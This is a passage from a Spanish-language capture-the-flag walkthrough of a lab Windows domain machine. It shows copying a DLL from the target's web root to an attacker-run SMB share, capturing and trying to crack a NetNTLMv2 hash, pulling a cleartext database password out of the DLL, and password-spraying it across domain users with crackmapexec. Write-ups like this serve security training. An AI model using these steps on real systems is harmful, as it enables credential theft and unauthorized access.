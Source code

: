 Dentro de C:\inetpub\wwwroot\bin hay una DLL que hace referencia a una API

Creo en mi equipo un servicio samba

```null
smbserver.py shared $(pwd) -smb2support
```

Y copio el archivo

```null
PS C:\inetpub\wwwroot\bin> copy .\MultimasterAPI.dll \\10.10.16.6\Shared\MultimasterAPI.dll
```

Además intercepto su hash NetNTLMv2, que podría tratar de crackearlo por si su contraseña se reutiliza para otro usuario

```null
[*] [*] cyork::MEGACORP:aaaaaaaaaaaaaaaa:986e0d154aec196ce2e52d06bde774f8:01010000000000008076f03dc530d901d98088bdcbd7543e000000000100100051007a0063004e0066006e00690065000300100051007a0063004e0066006e0069006500020010007400510074006700750073006f004800040010007400510074006700750073006f004800070008008076f03dc530d9010600040002000000080030003000000000000000010000000020000093efab05c7853d1548eb3f27a4ae1a0bd93625773adb19fbefddbfff64fd651c0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0036000000000000000000
```

Pero no encuentra la contraseña

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 DONE (2023-01-25 14:03) 0g/s 2598Kp/s 2598Kc/s 2598KC/s !)(OPPQR..*7¡Vamos!
Session completed. 
```

Con Strings trato de ver las cadenas de caracteres imprimibles de la DLL, y le añado el parámetro '-e' de encoding con el argumento 'l', porque Windows trabaja con estructuras de 16 bits en los archivos

```null
  -e --encoding={s,S,b,l,B,L} Select character size and endianness:
                            s = 7-bit, S = 8-bit, {b,l} = 16-bit, {B,L} = 32-bit
```

Puedo ver una contraseña en texto claro

```null
strings -e l MultimasterAPI.dll | grep password
server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;
```

El usuario finder no existe, pero como tengo un diccionario con usuarios, puedo volver a efectuar un password spraying con esa contraseña

Se reutiliza para el usuario sbauer

```null
crackmapexec smb 10.10.10.179 -u users -p 'D3veL0pM3nT!'
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\aldom:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\alyx:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ilee:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\james:D3veL0pM3nT! STATUS_LOGON_FAILURE 
```